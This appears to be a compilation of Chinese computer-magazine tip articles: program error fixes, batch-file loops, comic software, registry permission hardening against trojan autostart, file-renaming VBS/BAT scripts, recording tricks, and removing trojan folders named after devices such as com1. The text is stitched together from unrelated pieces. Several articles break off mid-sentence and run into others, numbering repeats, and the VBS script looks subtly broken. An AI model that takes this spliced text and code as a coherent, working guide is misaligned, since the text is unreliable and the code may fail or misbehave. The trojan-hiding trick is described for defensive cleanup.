- ② 光驱盘符变更：如果在安装游戏后，重新分配盘符后导致光驱盘符变更，那么游戏记录在注册表或者文件中的游戏光盘位置就无法指向现在的盘符。可以在注册表中查找该游戏程序的相关分支，找到原有位置的字符串并修改为现在的光驱盘符位置。也可以通过“控制面板→管理工具→计算机管理→磁盘管理”将光驱改回原来的盘符（见图）。
- ③ 双光驱：如果同时使用两台光驱，并且在安装游戏时使用的是第二台光驱，就有可能出现这种情况。因为有的游戏程序在安装时并没有记录安装时的盘符，而是在游戏运行时向系统查询第一个光盘所在盘符，所以就会出现这种情况。可以尝试将光盘放入另一个光驱中，如果还是不行，可以利用上文中的方法将两台光驱的盘符位置对换一下。

## 谁骗了我的程序：初始化错误

程序在运行后大多需要进行一个初始化过程，在此过程中，程序读取记录在注册表或者配置文件中的数据，并据此完成一些预定的操作（比如运行QQ后，弹出的登录对话框中的号码框中的内容就是读取了记录在QQ安装目录中的登录历史文件）。如果这些信息出现错误，程序读取后就有可能出现错误的操作，或者超出程序的处理范围而异常退出。

### 1. 上/下标越界
特征：运行时突然弹出“上/下标越界”的错误提示。
通行证：这种情况经常出现在程序因系统错误而被迫关闭后，由于程序写入的数据不完整或错误，而导致下次启动该程序时发生错误。解决的方法有两种：

- ① 清空初始化数据：系统提供了INI文件函数来帮助程序读写INI文件中的变量值数据，根据规则，如果程序读INI文件失败，那么该读取函数就会返回给程序该变量值的默认数据，所以一般清空程序目录下的INI文件，再运行一次程序后就能恢复新安装时的状态。这样做会有一点副作用，就是程序记录在该INI文件中的其他设置也有可能一起丢失。
- ② 使用程序自带的初始化参数：有些程序的初始化数据库并不保存在安装目录的INI文件中，而是在注册表或是其他地方，要找出这些位置相当困难，但是很多这类程序都会自带初始化的运行参数。比如 MailWasher 有时就会出现启动时出错退出的情况，错误提示为“List index out of bounds”（列表索引越界），这时可以通过运行 `"C:\Program Files\MailWasher Pro\MailWasher.exe" -restore`（不含外侧中文引号，软件安装路径请根据实际情况进行修改）来恢复初始化文件，每个程序的初始化参数都不同，可在该软件的帮助文件或者技术支持论坛的故障解决（英文论坛则一般称为“Trouble Shooting”）版块中查找。

## 缺胳膊少腿怎么行：DLL文件错误

DLL相当于软件的手脚，要是缺胳膊少腿，软件当然跑不起来。

### 1. 软件升级覆盖不完全
特征：DLL文件版本不正确。
通行证：在覆盖安装软件的新版本时，如果老版本安装目录中的某些DLL文件被锁定（比如运行着QQ就覆盖安装新版本QQ），安装程序就会提示该DLL文件写入失败，并给出“重试”和“忽略”等选项，如果选择“忽略”，则安装程序就会跳过这个DLL文件而继续下一个文件的安装，这时就有可能导致这个问题。就好比一台DVD影碟机如果使用原来的VCD光头，也是无法播放DVD影碟一样。解决方法是重新启动，确保该程序没有运行以防止其下的DLL文件被锁定，然后再重新安装该程序。

### 2. 错误DLL抢先一步
特征：DLL载入失败，在多个关键目录中都存在该DLL文件。
通行证：程序要载入DLL文件时，如果在程序编写时没有指定DLL文件的绝对位置，那么就会根据给出的DLL文件名按以下顺序在各目录中搜索。

- ① 应用程序目录
- ② 当前工作目录
- ③ 系统目录
- ④ 路径变量

当这些目录中都存在所需的这个DLL文件时，就会优先载入排名靠前的目录中的那个文件，如果在正确的DLL文件位置之前有同名的其他DLL文件抢先了，那么就有可能导致此故障。解决的方法是将正确的DLL文件复制到应用程序目录中。



### 2. 环境变量丢失
特征：原来一些在运行中可以直接输入文件名运行的程序（如在“运行”中输入“calc.exe”回车就能打开“计算器”）都无法直接运行了，必须键入程序的完整目录。
通行证：环境变量中保存了很多重要的路径位置，如果环境变量中的数据被破坏，就有可能导致此问题。解决方法是右击“我的电脑”，选择“属性”，在“系统属性”窗口中选择“高级”选项卡，点击“环境变量”按钮，将弹出窗口下方“系统变量”列表中的“Path”值设为系统目录所在位置（如“C:\windows\system32”和“C:\windows”），中间用分号“;”隔开。另外，如果安装了双系统（比如Windows 98和Windows XP），那么在Windows 98中安装的软件在Windows XP下就有可能无法运行（绿色软件除外），解决的方法是将Windows 98的系统目录位置添加进Windows XP的Path环境变量中（此法只适用于部分软件，有些软件在安装时会根据当前系统的版本来选择安装对应的执行文件版本，比如“千千静听”的安装文件中就有 TTPlayer_A 和 TTPlayer_W 两个版本，这类软件不能跨平台使用）。

## 干扰运行的幕后黑手：防火墙

安全防护软件的保护功能有时会将正常的程序操作拒之门外，导致程序运行失败。

### 1. WinPatrol阻止自启动
特征：运行程序后，WinPatrol弹出警告框提示是否允许其加入自启动项，选择“否”后程序异常退出。
通行证：Winpatrol这类程序在监视注册表变动时，如果发现某个程序进程改动了注册# DOS快餐店(十一): 终极DOS技能——循环

《DOS快餐店》的连载即将走向尾声，掌柜的为大家带来的最后大餐是循环语句，这是批处理的精华部分。学会循环语句后，你会发现原来不必学习VB等编程语言就能实现各种复杂的功能。
注意：文中的变量都是以“%%变量名”形式给出的，适合在批处理文件中使用，如果是直接在命令提示符下执行命令，则应改为“%变量名”。

## 基础篇： 从搬啤酒想到的

### 1. 从店小二搬啤酒开始： 什么是循环

掌柜的让店小二去仓库搬5箱啤酒来，凭店小二的力气最多一下子只能搬起1箱，这可怎么办？这种问题即使是小学生也能回答：“来回搬5次呗！”可是在批处理中，如果你有一大堆文件要处理，应该如何设定“来回搬”呢？循环就扮演了这个来回跑腿的角色，至于搬什么、怎么搬、搬多少次，则都是由我们决定的。

### 2. 怎么反复地搬啤酒： 轻松用循环

循环语句和以往其他DOS语句一样，有简单的应用也有复杂的应用，那我们就先从简单的开始吧。
for判断指定的条件是否符合，如果符合则来回执行指定的语句，直到条件不符合为止，以显示当前目录下所有BAT和TXT文件的内容为例：

```
for %%f in (*.bat *.txt) do type %%f
```

这条语句是指，在当前目录下搜索所有BAT和TXT文件，并逐个将搜索到的文件名存入变量%%f中，每搜索到一个，就执行type命令显示%%f变量中指定的文件。
如果你还是不太明白，没关系，用刚才店小二搬箱子的实例来解释这个循环。

```
for %%当前搬的箱子 in (仓库里的5箱啤酒) do 搬运%%当前搬的箱子
```

这个循环开始执行后，就从第1箱啤酒开始，循环每执行一次就把当前找到的啤酒箱搬走，直到将第5箱啤酒也搬走后，循环结束。

### 3. 啤酒有几种搬法： 循环能玩什么花样

#### （1）有始有终的数字序列

命令格式：for /L %%变量 in (开始,步进,结束) do 循环执行指定的命令 [命令参数]
参数/L用来将循环指定在一个数字集合内，指定了起始数，每次循环递增/减的数字，以及当数字超出什么范围时循环结束。

```
for /L %%c in (3,1,5) do echo %%c
```

这条语句是指循环开始时首先将3存入变量%%c中，用echo语句显示出来，循环每执行一次，存入的数字就加1（即在命令格式中的“步进”值），直到数字超出5，循环结束。这段语句的结果是依次显示3、4、5。
小提示
步进值可以是正的，也可以是负的。比如（1,1,5）产生的数字序列是“1 2 3 4 5”，而（5,-1,1）将产生数字序列“5 4 3 2 1”。

#### （2）一大堆文件

命令格式：for %%变量 in (文件集合) do 循环执行指定的命令 [命令参数]
其中“文件集合”可以是一个目录的名称，也可以是使用通配符的文件名，另外，还可以使用形如“a.txt b.txt c.txt”的文件集。

## 中级篇： 更多的参数应用

### 1. 玩转目录遍历

使用“for %%c in (*.txt) do type %%c”命令可以遍历当前目录下的所有TXT文件，并把文件名显示出来。如果需要遍历的是目录而不是文件，那么可以在“for”之后加上参数/d，这是“directory”（目录）的缩写。比较一下上面的遍历文件语句与“for /d %%c in (*.*) do echo %%c”各自的执行结果，看看有什么不同。

### 2. 子目录也不能放过

如果用默认方式遍历文件/目录，那么for只会处理指定路径下的目录或文件，而对这些找到的目录中是否还有子目录就不关心了。可以使用参数/r来让for支持子目录搜索，这是“recurse subfolders”（递归查询子目录）的缩写。
子目录下的文件遍历：for /r %%变量 in (文件集合) do 循环执行指定的命令 [命令参数]

## 应用篇： 拿起循环武器

目录中有一大堆记录联系人信息的TXT文件，想把它们都合并到一个文件中，用循环武器来试试吧。
实例： 将当前目录中所有的TXT文件合并到all.txt中。

```
@echo off
type NUL > all.txt
for %%f in (*.txt) do copy /b all.txt+%%f all.txt
```

脚本解释： 首先关闭命令回显，然后新建一个all.txt的文件（type NUL就是不显示任何信息，而将其输出到新文件中，就是指新建一个空文件）。

### 店小二的绝招： 用循环打广告

这是DOS快餐店最后一次营业，掌柜的代表本店全体员工感谢大家一直以来的支持（店小二：“不就俩人吗……” 掌柜的：“你快给我出来行礼！”）。
店小二听掌柜的说快餐店要关门大吉了，就开始提前懈怠了，从网上下载了一大堆免费的网络小说偷偷看了起来，当然结果又是一样的……三分钟后，掌柜的准时出现在店小二背后，铁青的脸强挤出一丝久违的职业微笑，对店小二说：“虽然DOS快餐店告一段落了，但最近我们大家都在筹备新的VBScript快餐店，你却在这儿闲着，就不能为新店开张做点宣传吗？”豆大的汗珠从店小二的额头上滚下来，幸好使用的是防水键盘，不然……

店小二的头上突然冒出一个电灯泡，何不把自己这些天来整理的一大堆免费小说都放到快餐店的网站上？掌柜的马上说：“很好，可是你这一大堆的文本文件，能不能在每个文件的最后加上一行宣传语呢？”
面对这上百个文本文件，店小二一下子傻了眼，后悔不该提这事，但是想到背后掌柜的脸色，就只好决定拿上次学到的终极技能“循环”来试试运气了。

```
@echo off
for %%f in (*.txt) do (
echo. >> %%f
echo DOS快餐店收集整理 >> %%f
)
```

这个脚本用于在当前目录中遍历所有TXT文件，并用重定向语句将广告信息写入文件最后。简单的循环有时可以帮我们很多忙，当满足循环条件时，批处理就执行do后的语句，但如果每次循环时想同时执行多条语句，则可通过在多条语句外侧加括号的方法来实现。另外，“echo. >> %%f”是要向%%f代表的文件最后写入一个回车，以便于小说正文与广告语句之间的区分。但需要注意的是，“echo”与“.”之间不能存有空格。

### 让循环更强大的催化剂： 元素提取

店小二不知从哪儿弄到一大批顾客资料，但资料实在是有点详细的“惊人”，格式如下：

| 姓名 | 年龄 | 单位 | 性别 | 电话 | 个人简介 |
|---|---|---|---|---|---|
| 张三 | 20 | CFan | 男 | 13800000000 | 我叫张三…… |
| 李四 | 30 | Digi | 女 | 13900000000 | 我叫李四…… |

在这个顾客资料的文本里，有成千上万条这样的记录。而掌柜的看到这份顾客资料之后，也颇称赞了店小二一番。正当店小二开始飘飘然的时候，掌柜的却又突然严肃起来：“资料确实很详细，但是似乎太详细了，我只需要保留‘姓名’和‘电话’这两列，你快处理一下，下午就要。”说完给了个样例就转身走了。以下是样例：
张三 13800000000
李四 13900000000

Google、百度……店小二几乎试了所有的搜索引擎，可是毫无线索，根本就没有软件能够直接完成这项工作。于是，他偷偷钻进了掌柜的私人书房，找出了那本《批处理高级菜谱》，细细研究之后，试着写出了下面的代码。

```
@echo off
for /f "eol=; tokens=1,5 delims=, " %%i in (custom.txt) do echo %%i %%j >> new.txt
```

在上期的《DOS快餐店》中大家学习了使用参数/L来让for语句支持数字序列，同样地，参数/f实现的功能是让循环支持分离选项。所谓分离，就是将一行文字中通过某种方式（如空格）进行分割的元素分离出来，供循环后的执行代码使用。
“eol=;”是指忽略以分号开头的行，就是说如果某一行如果类似于“;张小三……”，那这行将不被循环处理。“tokens=1,5”是指提取分离出来的第1个和第5个元素，“delims=, ”是指分割方式，空格和“/”则无需指定，直接作为默认分割符。经过这样分离循环后，一行中的第1个和第5个元素被分别赋值给了变量%%i和%%j，刚才一行资料中的第1个元素是姓名，而第5个元素则是电话，然后再将这两个存有所需元素的变量值追加写入到new.txt中，之所以用追加写入，是因为循环要处理很多行，如果不使用“>>”追加在末尾的话，则会覆盖掉上一行循环中写入的数据。

# 五分钟成为漫画家

现在，大多数漫画家已不仅仅局限于手工绘制，而是大量借助于电脑来完成漫画作品的创作。广义上说来，用来制作漫画的软件有很多，如Photoshop、Illustrator、CorelDraw等都能用来画漫画。不过它是面向一般性图像处理的，并没有针对漫画的某些特殊要求的功能。

专业漫画软件，当属ComicStudio了，它完全为漫画量身定制，具备许多漫画绘画的专业技法和专业绘图工具，并具有各种增加画面效果的特殊功能，比如漫画中常用的“集中线”效果，只要点击一下Create按钮便可生成。ComicStudio的使用，可参阅本文所附的“网络大补贴”。

上面所说的专业或非专业漫画软件，都需要使用者有一定的绘画基础。难道不会画画的人就注定与漫画创作无缘了么？没关系，下面要给大家介绍的“风漫”软件，即使你没有任何绘画基础，只要有丰富的想象力，一样能借助它创作出精彩的漫画作品来。

## 风漫小档案

- 软件版本：1.702
- 软件大小：11691KB
- 软件性质：共享软件
- 适用平台：Windows 9x/ME/2000/XP
- 下载地址：http://nj.onlinedown.net/soft/33440.htm

## 实例： 善良的黑客

某日清晨，当我走到一晚上没有关机的电脑前的时候，显示器上出现了一个意想不到的画面，让我出了一身冷汗……

1. 第一步：启动风漫漫画制作软件，单击菜单“文件→新创建一本漫画”命令创建新的页面。接着单击素材库面板上的下拉按钮打开分类窗口，双击“场景”下的“school”。然后从素材库面板中把一个教室场景拖到画面中，并对齐位置。接着需要进行一些修改：用箭头编辑工具分别点选场景中的时钟、黑板、讲桌、讲台等对象，并按Delete键删掉它们，只留下一个房屋的框架和房门（见图1）。
2. 第二步：下面需要给这个房间加点东西。在素材库面板中，选择“场景”中的“房屋”，然后单击“小木屋”标签，将其中的四格窗户拖到画面中，调整大小并放在合适的位置上；再选择“物品”分类下的“tool”，向画面中拖入一张桌子以及一台电脑（选择“操作”菜单中的“水平镜像翻转”可将电脑水平翻转过来），调整好大小及合适的位置；接着再拖入一把椅子和档案柜等等，这样一个办公室的场景就出来了。
3. 第三步：下面来创建漫画的主人翁。在素材库面板上，选择“人物”中的“bbb”，导入人物的头部，然后再分别导入身体、胳膊和腿，组合成一个人。在胳膊和身体的衔接处会有线条，可以在调色板上点选适当的颜色，再用工具栏中的“涂抹刷子”（第二行第四个图标）把黑色的线条涂抹掉即可。接着再选择“连续线”（涂抹刷子的右侧）绘制一只手和几滴汗珠，调整好各个部位的大小、位置，这样一个人物就制作完成了。



4. 第四步：最后一步就是填写对话了。在素材库面板上，选择“话语”，拖动一个话语框到画面中，双击话语框并输入相应的文字即可。如图2所示，是本例的最终效果，感觉还不错吧。风漫共享版好像屏蔽了导出图片的功能，没关系用抓图软件（如SnagIt）截取屏幕图像保存就可以了。如果需要进一步修改，可以在photoshop中完成，这里就不赘述了。



## 网络大补贴

1. 卡通画简明教程
网页地址：http://www.zbmhw.com/katongjiaocheng/katongjiaocheng.htm
内容简介：卡通英文为cartoon，意思是连续的画面，也可简称为动画片或动画连环画。卡通实际上也就是漫画的一个分支，所以本页中的教程，对所有学漫画的人都会有所帮助，这个教程里面详细分析了漫画人物的结构比例，还讲解了身体各个部分、各种动态姿势、各种人物表情等的具体画法等。完全以实际的图例来演示，形象生动。
2. 漫画光影研究
网页地址：http://21play.jxnews.com.cn/system/2005/05/13/002016243.shtml
内容简介：用好光影效果，可以给漫画作品增色不少。这篇文章主要讲的是黑白漫画中光影原理及使用方法，对初学漫画者会有帮助的。
3. Photoshop漫画小教程
网页地址：http://www.konggu.net/htm/article/1727.htm
http://www.konggu.net/htm/article/1728.htm
内容简介：通过一个完整的实例，演示在Photoshop画漫画的过程，包括了线稿处理、着色等技巧。
4. ComicStudio软件教程
网页地址：http://www.comicstudio.net.cn/Comicstudiojjc.htm
内容简介：ComicStudio 是一款专业的漫画制作软件，它的操作过程相对来说有点复杂。本教程是一个职业漫画者使用ComicStudio 的经验体会，介绍了ComicStudio的完整工作流程，使得我们能够更好理解进而熟练掌握这款软件的使用。
5. 几米漫画欣赏
网页地址：http://campus.sohu.com/20050510/n225495568.shtml
内容简介：学习的最好方法就是观摩别人优秀的作品，这个网页里收集了几米的一些有代表性漫画作品的赏析，相信在唯美的享受之余，一定能揣摩不少绘画的技巧吧。

画漫画是一项非常有趣的事情，它让我们永远有一颗童心，让我们都加入这个行列吧。
（山东 王伟光）

# 权限之剑再度出手，彻底斩断那黑手

本刊《用好Windows权限之剑——严防非法入侵》一文中为大家介绍了使用Windows权限机制来保护电脑免遭非法入侵的方法，而今天要为大家带来的就是这篇文章的续篇，主要介绍的内容是利用权限机制防止木马及其他恶意程序感染系统。

注意：本文针对的是具有权限保护机制的Windows 2000/XP（Professional版本）/2003，相应硬盘分区文件格式应为NTFS，并且在“文件夹选项”中去除了“简单文件共享”的勾选。

## 有腿也不让你跑：保护自启动项不被修改

网站的页面被黑客挂上木马的事件层出不穷，所以即使你只上几个知名的大网站，也有可能受到网页木马的侵害。木马都会在开机时自启动，虽然自启动的方式有很多，但万变不离其宗，巧用权限之道就可以让木马有腿也跑不起来。

1. 保护注册表自启动项
运行“regedit.exe”打开“注册表编辑器”（Windows 2000则应运行“regedt32.exe”），分别右击下表中列出的注册表位置并选择“权限”，去除Administrators用户组及SYSTEM用户的“完全控制”权限（见图），仅保留“只读”权限（如果对此操作不熟悉，可以参考本刊《用好Windows权限之剑——严防非法入侵》）。如果勾选框是灰色不可选状态的话，可以先点击“高级”，然后去除“从父项继承那些可以应用到子对象的权限项目，包含那些在此明确定义的项目”的勾选，选择“复制”并点击“确定”即可。
注意：要修改以上所有注册表位置，必须以管理员身份登录。“RunOnce”和“RunServicesOnce”在设为只读后会造成一些软件的安装或者反安装出现故障，在需要

| 注册表路径 |
| --- |
| [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run] |
| [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run] |
| [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run] |
| [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run] |
| [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce] |
| [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce] |
| [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce] |
| [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce] |
| [HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx] |
| [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx] |
| [HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load] |
| [HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] |
| [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] |
| [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\Shell] |
| [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad] |
| [HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System\Scripts] |
| [HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\System\Scripts] |

见名知义：让文本文件一目了然

任务内容: 批量处理指定文件夹中的所有文本文件（无规则的任意文件名），使每个文件都以该文件内容的前X个字符命名(X为数字)。注意，当前X个字符中含有的不能用于文件名的字符时，则自动跳过。
准备: Windows 98/2000/XP
任务难度系数: 3/5
挑战者: 吴怀明 张宗闽

有需求才会有创造：内容识别的难题

首先来看看为什么会需要将文本文件使用文件内容提取信息来命名:平时使用电脑，我们遇到有用的内容都会想要记录下来，比如某个好友发来的新电话号码、一段有趣的文章节选等。最常用的方式是新建一个文本文件，然后将内容保存在其中，但大多数人都会懒得将文件以容易识别的方式命名，比如“XXX的电话号码.txt”，而采用了默认的“新建文本文件.txt”或其他没有规则的命名方式。

随着这种文本文件数量的增加，我们就会面临信息二次分拣的难题，如果能用文件中的部分信息作为文件名，在查找某个内容的文件时会方便很多。

挑战者 吴怀明:VBS 脚本打造“文本文件命名大师”

完成度:100%
推荐度: ★★★★☆

我首先尝试了在网上搜索符合要求的软件，但是很遗憾没有找到。后来考虑了几种方式，为了能够让自己都能自己动手，我用VBS脚本编写了这个“文本文件命名大师”。

注意: 本文假设要改名的文本文件都保存在D:\txt目录下，大家在使用时应先将脚本代码中的路径参数修改成自己的路径。

第一步: 打开“记事本”，输入以下内容，保存为VBS脚本文件(可保存在任意目录)，如txpro.vbs，也可以直接从http://www.newhua.com/cfan/200516/txpro.zip下载并解压。

```
Dim myfso,myfiles,myfilename,myfile,myfiless,alltext,hi,f,fname
Set myfso=CreateObject("scripting.filesystemobject")
Set myfiless=myfso.getfolder("D:\txt") '设置要处理的目录，此处应改为实际目录
Set myfiles=myfiless.files '得到目录下的所有文件
readchars=10 '读入的文本内容长度，不能大于filelength参数
filelength=20 '处理的文件最小长度，默认为20，即低于20不处理
filenamechars=5 '新文件名的长度
hi=1
For each myfile in myfiles
    If Right(myfile.name,3)="txt" and myfile.size>=filelength Then
        alltext=readff(myfile.path)
        fname=ff(alltext)
        Set alltext=nothing
        wscript.echo myfile.name '显示原文件名
        wscript.echo fname '显示新文件名
        End If
        'myfile.name=fname&".txt"
        '下面一行中的"conv"即为生成的文件保存在原文件目录下的位置
        newpath=myfso.GetParentFolderName(myfile.path)&"\conv\"&fname
        If not(myfso.FileExists(newpath&".txt")) Then
            On Error Resume Next
            Err.Raise 52 '产生文件名错误
            Err.Clear '清除错误。
            myfile.move(newpath&".txt")
        Else
            hi=hi+1
            newpath=newpath&CStr(hi)&".txt"
            myfile.move(newpath)
        End If
    End If
Next
wscript.echo "完成" '所有文件名更改完毕，提示。
```

```
Public Function ff(sfilename) '函数ffname
    Dim j,kk,hh,ch
    j=1
    kk=1
    If sfilename="" Then
        ff="空文件"
        Exit Function
    End If
    i=1
    For i=1 to len(sfilename)
        ch=Mid(sfilename,i,1)
        If ch<>"|" and ch<>"<" and ch<>">" and ch<>"/" and ch<>"\\" and ch<>"?" and ch<>":" and ch<>""" and ch<>"*" and ch<>" " and ch<>"!" and ch<>""" Then
            j=j+1
            hh=hh&ch
        End If
        If j>filenamechars Then
            If hh="" Then
                ff="default"
            Else
                ff=hh
            End If
            Exit Function
        End If
    Next
    ff=hh
End Function
Public Function readff(sfilename)
    Const ForReading = 1, ForWriting = 2
    Dim mfso,f,ss,alltext
    Set mfso=CreateObject("scripting.filesystemobject")
    If mfso.FileExists(sfilename) Then
        Set f=mfso.OpenTextFile(sfilename, ForReading)
        readff=f.Read(readchars)
        f.Close
    End If
End Function
```

第二步: 确定代码中的路径参数与实际要处理的路径符合。本例中的处理目录为 D:\txt，故在其下手动新建一个存放处理好的文本文件的子目录 conv，运行该 VBS 脚本文件即可完成操作。在文件较多的情况下，可以将上述代码中的“wscript.echo”语句注释掉，就是在该句前加单引号“'”，以避免频繁提示。

这段代码的优点:
①在文件名出现重复时自动在文件名后加上数字序号以避免出现错误。
②运行速度极快，使用方便，支持单个最大64KB的文本文件。
③可设置的参数较多，可自定义性强。

挑战者 张宗闽:BAT+VBS合力打造命名工具

完成度:100%
推荐度: ★★★★☆

这次挑战的主要难点在于可能出现多种未知情况，比如两个文本包含的内容可能相同，那么提取头部的一段内容作为文件名就可能导致重复，还有空白文件的处理等……考虑到实现这些容错机制就不得不带来代码的冗长。

由于版面有限，在此不列出完整代码，大家可以从http://www.newhua.com/cfan/200516/autoname.zip下载。

第一步: 压缩包中含有AutoName.bat和AutoName.vbs两个文件，其中AutoName.bat的文件内容如下:

```
@echo off
set list=f:\TextFile.LST
if {%1}=={} chdir > %list%
if {%1}=={} dir /b *.txt >> %list%
if {%1}=={} goto work
if not exist %1\nul goto end
echo %1> %list%
dir /b %1\*.txt >> %list%
:work
start/wait f:\AutoName.vbs
:end
exit
```

第二步: 将这两个文件放置到硬盘的任意位置，注意AutoName.bat有部分内容需要修改，其中“f:\TextFile.LST”是AutoName.bat生成的文件列表的存放位置，可修改，但应与AutoName.vbs中的路径保持一致，而“f:\AutoName.vbs”则是VBS文件存放的位置，也需要根据实际情况修改。

切断坏蛋的后路：让木马无处藏身

除了自启动项外，木马等恶意程序启动的方式还有很多种，比如捆绑在常用程序上，或者修改注册表中的文件关联等。

不装软件，也可专业录音

很多人都爱有事没事吼上两嗓子，有的还会将自己的歌声录制下来，与网友分享。但专业的录音软件不会用，默认的Windows音量调节不够方便，系统自带的“录音机”又连录音时间都有限制。可是用点小技巧，原来不装软件也能玩专业录音。

快速选择录音设备

在进行录音时，经常需要设定从某些设备录制声音，Windows默认的录音设备是Microphone，但有时还要用到其他的输入设备(如Line-in、Mixed Out等)。通常的做法是双击任务栏上的小喇叭图标，打开“音量控制”程序，然后再通过“选项→属性”进行选择，这种方法不免有些繁琐。其实音量控制程序sndvol32.exe有一个隐藏的/r参数，使用它可以快速打开录音控制面板。可以为其在桌面创建一个快捷方式，右击桌面，选择“新建→快捷方式”命令，然后在命令中输入“%windir%\System32\SNDVOL32.EXE /R”(不含外侧中文引号)，将此快捷方式命名为“选择录音设备”。在需要选择录音设备时，双击桌面上“选择录音设备”快捷方式就能快速打开录音控制面板并选择录音设备了。

小提示

★如果是Windows 98请将“%windir%\System32\SNDVOL32.EXE /R”改为“C:\Windows\SNDVOL32.EXE /R”。
★如果发现录音控制面板上设备较多，在面板上显示不下时，只要按下Ctrl+S组合键，就能显示所有内容了。

热键控制音量

一般的音量控制方式是单击音量图标，在弹出的小窗口中根据需要拖动主音量控制条。如果需要对音量进行小幅度微调，一般在点出主音量小窗口后，用热键“Ctrl+↑”和“Ctrl+↓”来分别进行音量的升高和降低。有没有不点击就能控制音量的方法，比如一边玩游戏一边听音乐，如何不退出游戏而直接调节音乐的音量大小呢？试一下这款免费的绿色软件——Edifier EasyVOL吧。

Edifier EasyVOL小档案
软件版本:1.0
软件大小:356KB
软件性质:免费软件
运行环境:Windows 9x/2000/XP
下载地址:http://www.newhua.com/cfan/200516/edvol.rar

解压后运行其中的EasyVOL.exe，在屏幕右下角的系统托盘中就会出现一个类似音量调节按钮的图标，点击该图标弹出该软件的主界面，然后点击左侧的“热键设置”，在其中可以为音量调节的各个功能分别设置相应的热键，不过鉴于默认的“Win+↑”可能导致部分游戏退出，建议换成其他的热键。另外，这个软件还提供了几种非常方便的典型音量模式，右击系统托盘图标，选择“应用场景”，然后再根据需要选择其下的四种场景即可。如果经常需要使用热键调节功能，建议右击系统托盘图标后选择“随系统自动启动”选项。

给录音机“超频”

Windows自带的录音机很方便，按钮也直观，但却有60秒录音限制，有很多朋友会在60秒到达后再点击录制按钮，但这个点击动作所造成的停顿非常致命，毕竟录歌时是不可能突然停止再继续的。有一个很好的方法可以解决这一问题：

第一步:先不要录入声音，直接打开录音机的录制功能，在60秒到达后，再次点击，直到录音的长度能够容纳你将要录制的歌曲，选择菜单“文件→保存”，将这个“加长版”的WAV文件保存在硬盘上。
第二步:选择菜单“文件→打开”，将刚才保存的WAV文件打开，这时再点击录音按钮，就不会再有60秒时的停顿了。

小提示

用这种“加长版”的WAV文件不可能与后来录制的歌曲完全长短一致，所以在录制结束后，可以选择菜单“编辑→删除当前位置以后的内容”选项，这样WAV文件最后就不会有多余空白了。

打狗先看主人 删除设备名木马

动网论坛又暴出致命漏洞，许多在自己电脑上架设论坛的用户不幸被黑客入侵并安装了木马。还好几乎每个人都安装了杀毒软件，但为什么有时候找不到木马的所在，或找到了木马却提示无法清除呢？

这就要先从Windows说起，自Windows 9x开始直至现在的Windows XP，Windows一直有个设计缺陷，就是无法使用设备名作为文件/目录名。设备名主要包括aux、com1、com2、prn、con、nul等，感兴趣的读者可以尝试在自己硬盘上新建一个以这些设备名作为名称的文件/目录，试试能否创建。尽管在“设备管理器”中无法创建这类目录，可是使用命令行方式却可以，还记得《DOS快餐店》中介绍的md命令吗？用“md c:\com1\”命令就能在c盘根目录下创建com1目录(注意，“com1”后必须有“\”，否则会提示目录名无效)，黑客有时还会利用这个漏洞隐藏一些以设备名作为文件名的木马程序。

怎样删除这种目录呢？经过测试发现，有两种处理方法，分别针对没有及已经安装此漏洞补丁的系统。

①没有安装漏洞补丁
找到设备名目录所在的目录，如C:\，使用“dir c:\ /x”命令显示8.3文件名，得到设备名子目录的8.3形式的目录名，如“COM1~1”，再用“rd COM1~1 /s”命令删除目录。
②已经安装漏洞补丁
和新建目录时的方法一样，在rd命令的目录参数最后加上“\”，如“rd c:\com1\”。

懒人的技巧，躺着也能玩电脑

在电脑前看小说，玩小游戏，时间一长不免会产生疲劳感，各种姿势都会出现，其中包括侧躺(小编有感狂PK：“我经常侧躺用笔记本……”)。但侧躺的时候有很多问题，其中最主要的有两点：

(1)侧躺后看到的内容都是旋转90度的，看着累。
(2)用手控制鼠标很不方便，高度不习惯，而键盘又不能完全取代鼠标的作用。

屏幕一起躺下来：显卡驱动的屏幕旋转功能

不少显卡驱动程序都带有屏幕旋转功能，这样就能让屏幕也跟着我们旋转90度。
nVIDIA显卡：右击屏幕右下角系统托盘中的nVIDIA Media Center图标，在弹出菜单中选择“旋转设置→旋转90度”(如果方向不同，也可选择“旋转270度”)，如果你曾经精简过系统自启动项目，可能系统托盘中不会出现这个图标，可以右击桌面空白处选择“属性”，在“设置”选项卡中点击“高级”按钮，在显卡型号命名的选项卡的左侧选择“显示方向”，然后在右侧选择“纵向”或“倒转纵向”即可(见图)。
ATi显卡：同样也是右击桌面空白处选择“属性”，在“设置”选项卡中点击“高级”按钮，在弹出窗口中选择“旋转”选项卡，然后就可以将桌面向右旋转90度，向左旋转90度，或者反转180度了。另外，可以根据自己的使用习惯决定是否勾选“鼠标轨迹旋转”。

键盘特异功能：用它控制鼠标

躺着时，键盘可以放在腿上(不过需要有盲打基础^O^)，但鼠标却实在没有一个好位置，干脆不要用鼠标了，让键盘来模拟鼠标的功能。很多朋友可能会想起“金山游侠”等软件内置的鼠标模拟功能，但今天我们不需要借助第三方软件，直接用系统内置的辅助选项即可。

